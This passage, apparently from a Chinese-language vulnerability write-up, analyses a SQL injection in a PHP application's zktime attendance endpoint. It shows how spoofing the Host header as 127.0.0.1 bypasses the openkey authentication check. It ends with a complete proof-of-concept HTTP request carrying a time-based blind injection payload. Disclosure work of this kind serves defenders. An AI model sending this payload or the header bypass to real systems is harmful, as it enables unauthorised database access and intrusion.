   
  
继续分析代码 得知想要执行到这里 需要$type 等于9  
  
且  $rs 来自于 $arr 的value    然后  $arr 又来自于 json解码后的 $str   $str来自于 传入的post请求体  是可控的    
  
  
最后查找调用 senddata 被  同文件下的  zktimeAction 调用 同时也传入了9 满足上面的 $type =9    

```
public function zktimeAction()  
{  
    //9中控  
    $carr  = $this->senddata(9);  
    echo $carr['updt'];  
}
```

  
  
继续看代码发现 这个类的父类中存在一个鉴权  但是分析代码可知 Host 是127.0.0.1 或 192.168.x.x 的范围就可以绕过验证 。  

```
public function initAction()  
{  
    $this->display= false;  
    $openkey      = $this->post('openkey');  
    $this->openkey     = getconfig('openkey');  
    if($this->keycheck && HOST != '127.0.0.1' && !contain(HOST,'192.168') && $this->openkey != ''){  
       if($openkey != md5($this->openkey))$this->showreturn('', 'openkey not access', 201);  
    }  
    $this->getpostdata();  
}
```

  
  
按照路由构造请求url  
  
  
/index.php?m=opendkq|openapi&d=task&a=zktime  
  
  
按照sn的取值 构造两层json  
  
  
{"cn":{"sn":"123"}}  
  
  
host 为127.0.0.1  
  
### 漏洞利用  
  
#### poc  

```
POST /index.php?m=opendkq|openapi&d=task&a=zktime HTTP/1.1
Host: 127.0.0.1
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.122 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=p4idg1a6f9b059t7laum6m333o; deviceid=1733809734848
Connection: close
Content-Length: 34
Content-Type: application/x-www-form-urlencoded


{&#34;cn&#34;:{&#34;sn&#34;:&#34;123' and sleep(3)#&#34;}}
```